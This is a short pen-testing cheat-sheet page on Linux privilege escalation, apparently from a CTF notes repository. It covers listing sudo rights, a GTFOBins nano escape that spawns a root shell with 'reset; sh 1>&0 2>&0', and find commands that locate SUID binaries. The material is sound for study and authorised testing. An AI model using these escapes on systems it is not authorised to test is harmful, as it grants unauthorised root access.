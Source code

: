 # Privilege Escalation

 * [Resources](#resources)
 * [Finding Escalation Vectors](#finding-privilege-escalation-vectors)
   * [List all commands you can use sudo with](#list-all-commands-you-can-use-sudo-with)
   * [Find Binaries with SUID bit set](#find-binaries-with-suid-bit-set)

## Resources
|URL|Descriptions|
|---|---|
|[GTFO Bins](https://gtfobins.github.io/)|GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.|
|[Spawning a TTY Shell](https://netsec.ws/?p=337)|Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell.|


## Privilege Escalation Vectors

### List all commands you can use sudo with

List the allowed (and forbidden) commands for the invoking user ([sudo(8) - Linux man page](https://linux.die.net/man/8/sudo))

```bash
sudo -l
```

<details>
<summary>Read More</summary>

**Example**

```bash
$ sudo -l
Matching Defaults entries for user on host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User may run the following commands:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

 * [gtfobins/nano](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
```

Press `^R` (`ctrl` + `R`) to `Read Files`

Press `^X` (`ctrl` + `X`) to `Execute Command`

```bash
Command to execute: reset; sh 1>&0 2>&0
```

</details>

### Find binaries with setuid bit set

Find all files which have the [setuit bit](https://www.computerhope.com/jargon/s/setuid.htm) set

```bash
find / -perm -4000
```
or
```bash
find / -perm -u=s -type f 2>/dev/null
```

**Example**

 * [Mr Robot - Privilege Escalation II](../walkthroughs/mr-robot.md#privilege-escalation-ii)
